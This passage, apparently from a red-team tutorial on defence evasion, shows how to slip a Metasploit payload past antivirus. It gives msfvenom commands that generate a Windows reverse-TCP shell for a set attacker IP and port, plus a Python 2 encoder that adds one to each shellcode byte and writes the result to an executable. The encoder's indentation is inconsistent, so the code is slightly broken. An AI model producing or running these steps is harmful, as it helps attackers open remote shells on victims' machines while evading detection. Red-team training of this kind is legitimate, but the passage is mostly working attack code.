 ```
exit
```

## Memory Injection

Now we will work on how we can make a Metasploit payload undetectable by most of the antiviruses.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw exitfunc=thread > test1.exe
```

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Images/Screen20.png?raw=true)

A lot of antiviruses mark it as malicious.

Python code to change the metasploit payload by adding one to every byte and save the encoded result.

```
# Python Encoder Script
import sys

# Original Data in Bytes
original_data = bytearray(sys.stdin.read())

# New Data in Decimal
new_shellcode = []
for opcode in original_data:
	if opcode == 255:
		new_opcode = opcode
  else:
		new_opcode = opcode + 0x01

	new_shellcode.append(new_opcode)

# New Data in Hex
print "New Data in Hex:"
print "".join(["\\x{0}".format(hex(abs(i)).replace("0x", "")) for i in new_shellcode])

# New Data in Bytes
new_bytes = bytearray()
for i in new_shellcode:
	new_bytes.append(chr(i))

# Store Data in File
newFile = open('test2.exe','w')
newFile.write(new_bytes)
newFile.close()
```

Pass the metasploit payload through pipe to the python code to perform the encoding and save the result as test2.exe file.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw exitfunc=thread | python encoder.py 
```
